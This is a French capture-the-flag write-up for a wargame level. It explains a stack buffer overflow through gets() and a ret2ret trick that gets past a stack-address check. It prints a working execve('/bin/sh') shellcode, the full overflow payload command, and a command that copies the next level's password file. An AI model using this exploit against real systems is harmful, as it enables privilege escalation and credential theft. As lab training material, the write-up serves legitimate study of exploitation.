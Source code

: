 
## Level2

L’exécutable `level2` lit sur `stdin` et renvoie ce qu'il a lu sur `stdout`.

On peut voir que le main fait simplement un appel à la fonction `p()` :

```asm
   ; function p() :;
   [...]
   0x080484d7 <+3>:	sub    $0x68,%esp ; un buffer de 0x68
   [...]
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   ;gets() prend en parametre l'adresse du buffer.
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   ; le save de l'EIP est copie dans le buffer
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   ; si l'adresse copiee commence par 0xb[...] , le programme exit. 
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   [...]
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   [...]
 
```

La première idée est de remplir le  buffer avec un shell-code pour réécrire la sauvegarde de EIP avec l'adresse du shell-code. Mais le buffer est en `0xb[...]` et la condition suivante exit le programme dans ce cas.

##### Buffer:

```
0xbffff63c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff64c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff65c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff66c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff67c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff68c:	0x08048500	0x08048550

```
*État du buffer, rempli de "A", sans overflow. En dernière ligne, on voit l'adresse sur laquelle le programme va Jump en fin de fonction.*

On ne peut donc pas directement donner l'adresse du buffer qui contient notre Shell-code.

On va plutôt lui donner l'adresse du retour de `p()` :  `0x0804853e <+106>:	ret `

À la fin de `p` l'instruction `leave` va décaler `ESP` sur `EBP` (`ESP` pointe donc maintenant sur la sauvegarde de l'`EBP`) et pop cette sauvegarde dans `EBP` (dans le but de restaurer la stackframe du main).

L'instruction `ret` va pop dans `EIP` (en l’occurrence la sauvegarde de l'`EIP` qu'on a surchargé avec l'adresse de `ret`), puis va jump à cette adresse (dans notre cas `ret` sera appelé à nouveau). Dans la stackframe de `p` il ne reste plus qu'une adresse qui s'apprête à son tour à être pop et dont on exécutera l'instruction suite au jump à son adresse (sur le dump plus haut, en `0x08048550`).

À la place de cette adresse, on peut donc mettre un adresse de notre choix, en l’occurrence celle d'une variable d'environnement contenant un shell-code : 

 ```
 export SHELL_CODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
 ```

On utilise `x/20s *((char **)environ)` dans gdb pour trouver son adresse à laquelle on ajoute la taille de son nom (dans notre cas 10).

```
cat <(python -c 'print("A"* 80 + "\x3e\x85\x04\x08" + "\x98\xfe\xff\xbf")') - | ./level2
$ cat /home/user/level3/.pass > /tmp/pass
```
